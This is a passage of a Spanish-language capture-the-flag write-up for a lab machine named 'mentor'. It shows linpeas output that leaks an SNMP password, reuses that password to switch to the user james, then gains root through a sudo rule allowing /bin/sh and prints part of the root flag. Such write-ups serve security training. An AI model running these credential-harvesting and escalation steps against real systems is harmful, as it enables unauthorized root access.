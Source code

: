 # User Pivoting
Ejecutando `linpeas.sh` encontramos lo siguiente.
```shell
══════════╣ Analyzing SNMP Files (limit 70)
-rw-r--r-- 1 root root 3453 Jun  5  2022 /etc/snmp/snmpd.conf
# rocommunity: a SNMPv1/SNMPv2c read-only access community name
rocommunity  public default -V systemonly
rocommunity6 public default -V systemonly
createUser bootstrap MD5 SuperSecurePassword123__ DES
-rw------- 1 Debian-snmp Debian-snmp 1268 Aug  1 19:55 /var/lib/snmp/snmpd.conf
```

Y viendo los usuarios del sistema...
```shell
svc@mentor:/tmp$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
svc:x:1001:1001:,,,:/home/svc:/bin/bash
james:x:1000:1000:,,,:/home/james:/bin/bash
```

`james:SuperSecurePassword123__`

```shell
c@mentor:/tmp$ su james
Password:
james@mentor:/tmp$
```

# Privilege Escalation
Ejecutando el comando `sudo -l`

Vemos que el usuario `james` puede ejecutar como el usuario que quiera, incluido `root`
el comando binario `/bin/sh`

```shell
james@mentor:/tmp$ sudo -l
[sudo] password for james:
Sorry, try again.
[sudo] password for james:
Matching Defaults entries for james on mentor:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User james may run the following commands on mentor:
    (ALL) /bin/sh

```

Así que aquí ya está mascada la escalada de privilegios.
```shell
james@mentor:/tmp$ sudo /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

```shell
# cat /root/root.txt
ef134ef73e65ef5c0...
```

¡Y ya estaría!

Happy Hacking! 🚀